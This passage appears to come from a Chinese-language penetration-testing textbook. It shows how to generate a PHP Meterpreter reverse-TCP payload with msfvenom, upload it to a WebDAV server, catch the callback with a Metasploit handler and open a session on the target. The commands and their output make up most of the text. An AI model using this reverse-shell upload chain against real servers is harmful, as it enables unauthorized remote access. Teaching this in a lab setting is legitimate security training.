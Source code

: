 ```
root@kali:~# **msfvenom -p php/meterpreter/reverse_tcp -o**
[*] Options for payload/php/meterpreter/reverse_tcp

--*snip*--
    Name   Current Setting  Required  Description
    ----   ---------------  --------  -----------
    LHOST                   yes       The listen address
    LPORT  4444             yes       The listen port
```

如你所见，我们需要设置 `LHOST` 来告诉有效载荷要连接回的 IP 地址，此外我们还可以更改 `LPORT` 选项。因为这个有效载荷已经是 PHP 格式，我们可以在设置好选项后使用 `-f` 选项将其以原始格式输出，然后将原始 PHP 代码通过管道输出到一个带 *.php* 扩展名的文件中，上传到服务器，如下所示。

```
root@kali:~# **msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=2323 -f raw > meterpreter.php**
```

现在我们使用 WebDAV 上传文件。

```
dav:/webdav/> **put meterpreter.php**
Uploading meterpreter.php to `/webdav/meterpreter.php':
Progress: [=============================>] 100.0% of 1317 bytes succeeded.
```

如同在第四章中所述，我们需要在 Msfconsole 中设置一个处理程序，以便在执行脚本之前捕获有效载荷（见示例 8-3）。

示例 8-3. 设置有效载荷处理程序

```
msf > **use multi/handler**
msf  exploit(handler) > **set payload php/meterpreter/reverse_tcp**❶
payload => php/meterpreter/reverse_tcp
msf  exploit(handler) > **set LHOST 192.168.20.9**❷
lhost => 192.168.20.9
msf  exploit(handler) > **set LPORT 2323**❸
lport => 2323
msf  exploit(handler) > **exploit**
[*] Started reverse handler on 192.168.20.9:2323
[*] Starting the payload handler...
```

在 Msfconsole 中使用 *multi/handler*，将有效载荷设置为 *php/meterpreter/reverse_tcp* ❶，并适当设置 `LHOST` ❷ 和 `LPORT` ❸ 以匹配生成的有效载荷。如果这个过程对你来说不熟悉，可以回顾一下使用 Msfvenom 创建独立有效载荷。

通过在 web 浏览器中打开上传的有效载荷来运行它，应该会为我们提供一个 Meterpreter 会话，当我们返回到 Msfconsole 时可以看到，如下所示。

```
[*] Sending stage (39217 bytes) to 192.168.20.10
[*] Meterpreter session 2 opened (192.168.20.9:2323 -> 192.168.20.10:1301) at 2015-01-07 17:27:44 -0500

meterpreter >
```

我们可以使用 Meterpreter 命令 `getuid` 来查看我们的会话在被利用的目标上具有什么权限。一般来说，我们获得的是我们利用的软件的权限。
